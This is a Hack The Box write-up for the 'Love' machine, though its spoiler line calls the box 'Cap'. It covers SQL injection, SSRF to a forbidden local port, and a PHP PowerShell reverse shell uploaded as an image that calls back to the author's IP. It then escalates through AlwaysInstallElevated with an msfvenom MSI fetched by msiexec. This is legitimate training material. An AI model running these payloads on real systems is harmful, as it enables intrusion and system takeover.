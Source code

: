```yaml
---
title: "HTB: Love Writeup"
date: 2021-06-11T23:13:00-07:00
categories:
  - blog
  - writeup
  - htb
tags:
  - htb
  - htb easy
  - offsec
---
```


There are spoilers below for the Hack The Box box named Cap. Stop reading here if you do not want spoilers!!!

---

# Enumeration
I began by the standard enumeration flow, using `nmap`

```bash
# Nmap 7.91 scan initiated Wed Jun  9 13:19:10 2021 as: nmap -sC -sV -oA nmap/love 10.10.10.239
Nmap scan report for 10.10.10.239
Host is up (0.26s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
...{snip}...
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
...{snip}...
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun  9 13:21:32 2021 -- 1 IP address (1 host up) scanned in 142.98 seconds
```

So, there are a few interesting things that may be seen. Visiting port `80` shows a voting system, port `5000` just shows an Access Denied page, and the SSL certificate from port `443` shows a different name (`staging.love.htb`).

## Voting System (port 80)
I spent a while on this, the first thing I noticed is that the `voter` field is vulnerable to a timing SQL injection, using `sqlmap` I was able to pull the following credentials from it:

```
admin:$2y$10$4E3VVe2PWlTMejquTmMD6.Og9RmmFN.K5A1n99kHNdQxHePutFjsC
```

Unfortunately, throwing that hash into JTR and Hashcat reveals nothing, so that appears to be a deadend.

Continuing with the voting system enumeration, `gobuster` reveals that there are multiple directories with listings open and other additonal directories.

```
/admin
/includes
/images
```

Those both could be interesting, but lets check out the other ports

## File Scanning (staging.love.htb)
Adding `10.10.10.239 staging.love.htb` to my `/etc/hosts` file, I'm able to access this new site. It has a notification system (that doesn't do anything) and a demo file scan. The demo file scan will download and display a file that you give it.

## Forbidden (port 5000)
There's another HTTP instance running on port 5000, but whenever visiting this page or attempting to access any subdirectories from it, I simply receive a `403 Forbidden` error.

### Accessing Forbidden
This part took me a long time to figure out, longer than it likely should have, but if you use the file scanner from `staging.love.htb` to scan `127.0.0.1:5000`, it can access the page! It'll return 

> Vote Admin Creds admin: @LoveIsInTheAir!!!!

## Vote Login
Given the previous credentials pulled fromt he forbitten page, I was then able to access the admin page located at `love.htb/admin` using the credentials `admin:@LoveIsInTheAir!!!!`!

## Getting a Shell
Now that I have admin login, it's time to look around. I immediately notice that I can create a user and upload a photo. I wonder if there's any validate that this is a valid photo?

Since this is a PHP website running on a Windows machine (all stuff I know from the nmap scan and the file extensions in the URL), I crafted a PHP PowerShell reverse shell payload:

```php
<?php

exec("powershell -c \"\$client = New-Object System.Net.Sockets.TCPClient('10.10.14.204',9000);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush();}\$client.Close()\"");
```

I then started a reverse shell

```bash
$ nc -lnvp 9000
```

And uploaded this PHP file as an image. And it worked, no validate on the type of file being uploaded at all!!

```bash
PS C:\xampp\htdocs\omrs\images> whoami
love\phoebe
```

# Privesc
Now that I have a low level shell, it's time to begin enumeration again to determine how to move to a system shell. After checking a few of the standard enumeration paths, I noticed the following:

```batch
PS C:\xampp\htdocs\omrs\images> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\xampp\htdocs\omrs\images> reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Because those (either one) are set to true, that means that any user is able to execute a `.msi` as system! So I then crafted an MSI payload:

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.204 lport=1234 -f msi > rshell1234.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes

$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Back on Windows I executed the installer

```batch
> msiexec /q /i http://10.10.14.204/rshell1234.msi
```

And on my machine I had a metasploit listener set up

```bash
$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 10.10.14.204; set lport 1234; run"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_tcp
lhost => 10.10.14.204
lport => 1234
[*] Started reverse TCP handler on 10.10.14.204:1234 
[*] Sending stage (175174 bytes) to 10.10.10.239
[*] Meterpreter session 1 opened (10.10.14.204:1234 -> 10.10.10.239:62952) at 2021-06-10 20:59:28 -0400

meterpreter > shell
Process 7128 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

And success! We now have a system shell!!
